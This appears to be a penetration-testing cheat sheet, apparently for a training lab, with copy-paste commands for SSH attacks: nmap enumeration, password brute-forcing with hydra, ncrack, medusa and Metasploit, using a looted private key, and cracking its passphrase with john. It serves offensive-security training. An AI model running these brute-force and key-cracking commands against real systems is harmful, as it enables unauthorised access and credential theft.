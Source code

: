 ## Typical command walkthrough (detailed, copy-paste friendly)

Set common variables first so you can reuse them:
```bash
# Adjust these
TARGET=10.10.10.10
PORT=22
USERS=users.txt
PASS=/usr/share/wordlists/rockyou.txt
KEY=id_rsa
USER=student
```

Prepare the rockyou wordlist (Kali):
```bash
[ -f /usr/share/wordlists/rockyou.txt.gz ] && sudo gzip -dk /usr/share/wordlists/rockyou.txt.gz
```

1) Discover SSH and enumerate
```bash
# Basic discovery and default scripts on 22/TCP
nmap -sV -sC -p $PORT $TARGET

# Focused SSH enumeration
nmap -p $PORT --script ssh-auth-methods,ssh2-enum-algos,ssh-hostkey $TARGET

# Optional brute NSE (noisy; prefer hydra/ncrack/medusa)
# nmap -p $PORT --script ssh-brute --script-args userdb=$USERS,passdb=$PASS,brute.firstonly=true $TARGET
```

2) Password attacks (be gentle to avoid lockouts)
```bash
# Hydra (common choice)
hydra -L $USERS -P $PASS -s $PORT -f -I -u -V ssh://$TARGET

# Ncrack (rate-limit with --connection-limit)
ncrack -vv -p ssh:$PORT -U $USERS -P $PASS --connection-limit 3 $TARGET

# Medusa
medusa -h $TARGET -U $USERS -P $PASS -M ssh -t 4 -f

# Metasploit (non-interactive run)
msfconsole -q -x "use auxiliary/scanner/ssh/ssh_login; set RHOSTS $TARGET; set RPORT $PORT; set USER_FILE $USERS; set PASS_FILE $PASS; set STOP_ON_SUCCESS true; run; exit"
```

Force password auth if server offers both:
```bash
ssh -p $PORT -o PreferredAuthentications=password -o PubkeyAuthentication=no $USER@$TARGET
```

3) Private key path
```bash
# If you loot a private key, fix permissions and try
chmod 600 $KEY
ssh -p $PORT -i $KEY -o IdentitiesOnly=yes $USER@$TARGET

# Crack an encrypted private key passphrase
python3 /usr/share/john/ssh2john.py $KEY > key.hash
john --wordlist=$PASS key.hash
john --show key.hash  # reveals the passphrase if cracked

# Then retry with the cracked passphrase (you'll be prompted)
ssh -p $PORT -i $KEY -o IdentitiesOnly=yes $USER@$TARGET
```
